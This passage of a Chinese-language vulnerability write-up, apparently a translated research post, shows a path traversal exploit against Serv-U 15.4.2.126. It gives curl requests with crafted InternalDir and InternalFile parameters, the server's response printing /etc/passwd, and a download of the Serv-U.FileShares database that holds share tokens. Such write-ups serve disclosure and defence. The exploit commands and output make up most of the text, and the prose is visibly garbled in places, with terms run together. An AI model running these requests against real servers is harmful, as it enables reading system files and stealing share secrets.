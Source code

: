 另一个值得阅读的有趣文件是  
C:\ProgramData\RhinoSoft\Serv-U\Shares\Serv-U.FileShares  
。这是一个 SQLite3 数据库，其中包含  
ShareTokenServ-U 共享的每个文件的 。 是外部方读取共享文件所需的秘密。但是在 Windows 上，此文件已锁定，尝试读取此文件将不起作用。进程中  
ShareToken  
的 调用将返回。kernelbase!CreateFileWServ-U.exeERROR_SHARING_VIOLATION  
  
当以 Linux 系统为目标时，我们可以读取任意文件，如下  
/etc/passwd所示。请注意，路径分隔符必须是反斜杠 (   
\)，而不是正斜杠 (  
/)。  
```
>curl -i -k --path-as-is https://192.168.86.43/?InternalDir=\..\..\..\..\etc^&InternalFile=passwd
HTTP/1.0 200 OK
Server: Serv-U/15.4.2.126
Date: Tue, 11 Jun 2024 14:55:28 GMT
Accept-Encoding: deflate
X-Permitted-Cross-Domain-Policies: none
Connection: close
X-Frame-Options: sameorigin
X-Same-Domain: 1
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Referrer-Policy: same-origin
Strict-Transport-Security: max-age=31536000; includeSubDomains
Last-Modified: Tue, 16 Jan 2024 10:58:11 GMT
Expires: -1
Cache-Control: must-revalidate, private
Content-Length: 3017

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48tafV99pPHLsfwfIoMZicpXgaXkKZZicTcwqoUgId5NlpaVicic8M6LGE5YcW4uDZs8BaoxcQgvt3wohxRw/640?wx_fmt=jpeg&from=appmsg "")  
  
虽然 SQLite 数据库  
Serv-U.FileShares  
在 Windows 上被锁定，但我们可以在 Linux 目标上成功读取此文件，如下所示：  
```
curl -i -k --path-as-is https://192.168.86.43/?InternalDir=\..\Shares^&InternalFile=Serv-U.FileShares --output Serv-U.FileShares
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 61440  100 61440    0     0  1965k      0 --:--:-- --:--:-- --:--:-- 2000k
```  
  